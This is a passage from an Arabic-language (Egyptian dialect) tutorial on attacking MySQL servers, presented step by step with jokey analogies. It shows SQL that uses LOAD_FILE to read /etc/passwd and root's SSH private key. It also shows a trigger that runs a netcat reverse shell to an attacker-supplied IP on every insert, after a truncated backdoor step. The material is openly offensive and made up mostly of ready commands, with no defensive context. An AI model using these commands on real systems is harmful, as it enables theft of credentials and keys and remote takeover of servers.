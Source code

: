 4️⃣ استخدم **الـ Backdoor** عشان تنفذ أوامر!

💡 **مثال طريف:**  
**زي إنك تحط "شكوى كاذبة" على مكتب المدير بحيث يقرأها وينفذ اللي مكتوب فيها من غير ما يحس! 😂**

---

# **🔴 الطريقة 3: استغلال LOAD DATA INFILE لسرقة الملفات**

### **📌 الفكرة**

- **`LOAD DATA INFILE`** بيسمح لـ MySQL بتحميل ملفات نصية من السيرفر.
- نستخدمه عشان نقرا **ملفات حساسة** زي `/etc/passwd` أو `id_rsa` (مفتاح SSH).

### **📌 تنفيذ الهجوم خطوة بخطوة**

1️⃣ الدخول إلى MySQL

```bash
mysql -u root
```

2️⃣ تحميل ملف **passwd**

```sql
SELECT LOAD_FILE('/etc/passwd');
```

3️⃣ لو نجحت، ممكن تحاول تقرا **مفتاح SSH** بتاع root

```sql
SELECT LOAD_FILE('/root/.ssh/id_rsa');
```

💡 **مثال طريف:**  
**زي إنك تقف ورا حد وهو بيدخل باسورد الـ ATM وتاخده من غير ما يحس! 😂**

---

# **🔴 الطريقة 4: استغلال Triggers لتنفيذ أوامر Root تلقائيًا**

### **📌 الفكرة**

- **Triggers** هي أوامر بتتنفذ **تلقائيًا** لما يحصل تعديل معين في قاعدة البيانات.
- نستخدمها عشان نشغل **Reverse Shell** كل ما حد يضيف بيانات جديدة.

### **📌 تنفيذ الهجوم خطوة بخطوة**

1️⃣ إنشاء **Trigger** يشغل **Reverse Shell**

```sql
DELIMITER //
CREATE TRIGGER myTrigger
AFTER INSERT ON users
FOR EACH ROW
BEGIN
    SELECT do_system('nc -e /bin/bash YOUR_IP 4444');
END;
//
DELIMITER ;
```
